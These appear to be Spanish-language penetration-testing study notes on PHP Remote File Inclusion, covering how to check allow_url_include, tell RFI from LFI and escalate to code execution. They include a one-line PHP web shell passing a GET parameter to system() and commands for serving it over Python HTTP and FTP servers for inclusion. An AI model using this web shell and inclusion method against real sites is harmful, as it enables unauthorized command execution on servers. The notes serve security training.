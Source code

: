 Las mayorias de vulnerabilidades RFI y LFI tienen funciones de incluir remotamente URLS usualmente incluye archivos locales. Sin embargo, un LFI no tiene porque ser necesariamente un RFI.

- La funcion vulnerable no incluye URL remotas
- Tu solo tienes el control de uan forcion de algun archivo como hhtp o ftp
- La configuracion de RFI, normalmente en servidores modernos esta quitada

### VERIFICAR RFI

En muchos lenguajes, incluid codigo remoto en una URL es algo peligoros, por esto esta inclusion esta quitada predeterminadamente. Por ejemplo si quieres incluir URL tiene que estar activo

```
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include
```

Sin embargo, las configuraciones estan activas, estas funciones vulnerables puedes ejecutar este codigo remoto, y determinar si es una vulnerabilidad LFI o RFI, y ver el contenido, deberemos saber siempre al empezar intentar incluid una URL local como (http:/127.0.0.1:80/index.php)

Si vemos dicha página nos da por hecho que es vulnerable, esta ppagina es vulnerable a RFI

### REMOTE CODE EXECUTION CON RFI

El primerp aso para ganar un codigo remoto de ejecución es crear el scrip malicioso en la aplicacion web. Haremos una web shell y usaremos aun revershe sell

```
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Ahora nosotros necesitamos incluirlo en la vulnerabilidad RFI. Es bueno estar escuchanndo los puertos para ver como el 80 o 443 

## HTTP

Vamos a empezar un servidor basico de python
```
sudo python3 -m http.server
```
Ahora incluiremos los archivos locales ousando la ip y el puerto

![image](https://github.com/D4l1-web/PenetrationTester-Ruta/assets/79869523/9ef723f3-623d-41ba-8334-bca2f6aa9c6b)

una vez veremos como se ha descargado

![image](https://github.com/D4l1-web/PenetrationTester-Ruta/assets/79869523/017b2d17-0fa1-411b-8898-e5dd9c75dd51)

## FTP

El protocolo ftp también lo podemos abrir con python
```
sudo python -m pyftpdlib -p 21
```

Noralmente esto es bloqueado por el firewall.
